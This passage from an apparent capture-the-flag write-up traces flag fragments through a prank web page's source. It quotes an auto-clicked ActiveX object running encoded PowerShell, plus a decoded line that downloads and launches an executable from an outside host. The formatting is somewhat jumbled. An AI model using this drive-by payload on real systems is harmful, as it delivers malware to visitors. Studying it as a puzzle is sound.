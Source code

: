 In the source code of the web page, there is a base64-encoded string: `VU1EQ1RGezE5OTdfY2FsbGVkXw==`.

![](/image/chall7_4.png)

--> `UMDCTF{1997_called_`

```php
<PARAM name="Item1" value=',cmd.exe,/c powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA'>
<body>
    <!--VU1EQ1RGezE5OTdfY2FsbGVkXw==--> 
    <OBJECT id=shortcut classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11"
        width=1 height=1>
        <PARAM name="Command" value="ShortCut">
        <PARAM name="Button" value="Bitmap::shortcut">
        <PARAM name="Item1" value=',cmd.exe,/c powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA'>
        <PARAM name="Item2" value="273,1,1">
    </OBJECT>
    <SCRIPT> shortcut.Click(); </SCRIPT>
    <div class="container">
        <div class="text"> <strong>
                <h1>DOCTORS HATE HIM!!</h1>
            </strong>
            <p>Do you suffer from low energy, fatigue, and a general lack of motivation? Did your Pokemon leave you for
                a better trainer? Rocket Corp's Master Ball Serum can help! Our all-natural formula boosts your energy
                levels and helps you feel like a young trainer ready to take on the world again!</p><button>Find out
                more!</button>
        </div>
        <div class="image"> <img src="depressed_pokemon_trainer.png" alt="Pikachu"> </div>
    </div>
</body>

</html>
$env:WEB_REQUEST -Uri http://dns-server:6969/explorer.exe -OutFile explorer.exe; Start-Process explorer.exe
```
and

